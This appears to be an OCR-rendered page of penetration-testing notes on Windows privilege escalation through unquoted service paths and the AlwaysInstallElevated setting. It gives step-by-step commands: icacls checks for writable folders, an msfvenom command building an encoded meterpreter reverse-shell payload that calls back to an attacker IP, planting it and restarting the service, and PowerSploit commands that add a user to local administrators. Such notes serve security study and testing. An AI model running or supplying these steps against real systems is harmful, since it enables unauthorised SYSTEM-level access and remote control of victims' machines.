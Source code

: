             -   vulnerable : C:\\Program Files\\something\\winamp.exe

            -   not vulnerable : \"C:\\Program Files\\something\\winamp.exe\" 

            -   C:\\Program Files(x86) \\some Folder \\result.exe

    -   **view the permissions of the other affected folder in the path, of the service found:**

        -   icacls \"C:\\Program Files (x86)\\some Folder\"

        -   icacls \"C:\\Program Files (x86)\\Sub A\"

        -   You are looking in the output. for

            -   BUILTIN\\Users:(F)(Full access), or

            -   BUILTIN\\Users:(M)(Modify access) or 

            -   BUILTIN\\Users:(W)(Write-only access) 

    -   **Then make a payload with a name that the windows try to execute with msfvenom and upload the file in the parent vulnerable path**

        -   msfvenom -p windows/meterpreter/reverse\_tcp -e x86/shikata\_ga\_nai LHOST=192.168.2.60 LPORT=8989 -f exe -o sub.exe

        -   c:\\program Files\\some folder \> dir

            -   we will find Sub A folder && sub.exe

    -   **Final step Stop and restart the service**

        -   Sc stop service

        -   Sc start service

    -   Automate this process with Metasploit Module:  exploit/windows/local/trusted\_service\_path

    -   Powersploit

        -   Get-ServiceUnquoted -\> this command not only discoverthe service but it does all the other necessary checks as well like: identification of the path that users have Write access, discovery of the privileges that the service is running (which in this case is LocalSystem) and determination of whether a user can restart the service.

        -   Write-ServiceBinary -Name "name" --Path "c:\\\\payload.exe" **-\>**  will generate an executable into the specified path with a simple payload.exe that it will try to add the user into the local administrators group when the service will be restarted.


-   **AlwaysInstallElevated**

    -   AlwaysInstallElevated is a setting that allows non-privileged users the ability to install and run Microsoft Windows Installer Package Files (MSI) with elevated (SYSTEM) permissions. However, granting users this ability is a security concern because it is too easy to abuse this privilege.   For this to occur, there are two registry entries that have to be set to the value of "1" on the machine:

        -   \[HKEY\_CURRENT\_USER\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer\]
        > "AlwaysInstallElevated"=dword:00000001
        -   \[HKEY\_LOCAL\_MACHINE\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer\]
        > "AlwaysInstallElevated"=dword:00000001
